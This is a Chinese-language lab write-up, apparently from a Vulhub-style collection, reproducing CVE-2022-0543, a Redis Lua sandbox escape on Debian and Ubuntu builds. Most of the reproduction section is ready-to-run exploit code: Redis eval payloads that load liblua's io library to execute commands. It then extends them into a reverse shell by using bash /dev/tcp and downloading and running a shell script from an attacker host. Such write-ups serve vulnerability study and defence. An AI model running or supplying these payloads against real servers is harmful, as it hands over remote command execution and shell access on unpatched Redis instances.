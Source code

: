 # Redis Lua沙盒绕过命令执行（CVE-2022-0543）

## 漏洞描述

Redis是著名的开源Key-Value数据库，其具备在沙箱中执行Lua脚本的能力。

Debian以及Ubuntu发行版的源在打包Redis时，不慎在Lua沙箱中遗留了一个对象`package`，攻击者可以利用这个对象提供的方法加载动态链接库liblua里的函数，进而逃逸沙箱执行任意命令。

参考链接：

- https://www.ubercomp.com/posts/2022-01-20_redis_on_debian_rce
- https://bugs.debian.org/cgi-bin/bugreport.cgi?bug=1005787

## 环境搭建

Vulhub执行如下命令启动一个使用Ubuntu源安装的Redis 5.0.7服务器：

```
docker-compose up -d
```

服务启动后，我们可以使用`redis-cli -h your-ip`连接这个redis服务器。

## 漏洞复现

借助Lua沙箱中遗留的变量`package`的`loadlib`函数来加载动态链接库`/usr/lib/x86_64-linux-gnu/liblua5.1.so.0`里的导出函数`luaopen_io`。在Lua中执行这个导出函数，即可获得`io`库，再使用其执行命令：

```
local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io");
local io = io_l();
local f = io.popen("id", "r");
local res = f:read("*a");
f:close();
return res
```

值得注意的是，不同环境下的liblua库路径不同，你需要指定一个正确的路径。在我们Vulhub环境（Ubuntu fiocal）中，这个路径是`/usr/lib/x86_64-linux-gnu/liblua5.1.so.0`。

连接redis，使用`eval`命令执行上述脚本：

```
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("id", "r"); local res = f:read("*a"); f:close(); return res' 0
```

![image-20220412154207162](./images/image-20220412154207162.png)

### 反弹shell

直接bash反弹shell失败，尝试其他方法。

```
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("bash -i >& /dev/tcp/your-ip/6666 0>&1", "r"); local res = f:read("*a"); f:close(); return res' 0
```

攻击端编写shell脚本并启动http服务器：

```
echo "bash -i >& /dev/tcp/your-ip/6666 0>&1" > shell.sh
python3环境下：python -m http.server 80
```

受控端执行以下两条命令即可反弹shell：

```
# 上传shell.sh文件
wget your-ip/shell.sh

# 执行shell.sh文件
bash shell.sh
```

结合当前漏洞，连接redis，使用`eval`命令执行脚本：

```
# 上传shell.sh文件
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("wget your-ip/shell.sh", "r"); local res = f:read("*a"); f:close(); return res' 0

# 执行shell.sh文件
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("bash shell.sh", "r"); local res = f:read("*a"); f:close(); return res' 0
```

攻击端监听666端口，成功接收反弹shell：

![image-20220412154740423](./images/image-20220412154740423.png)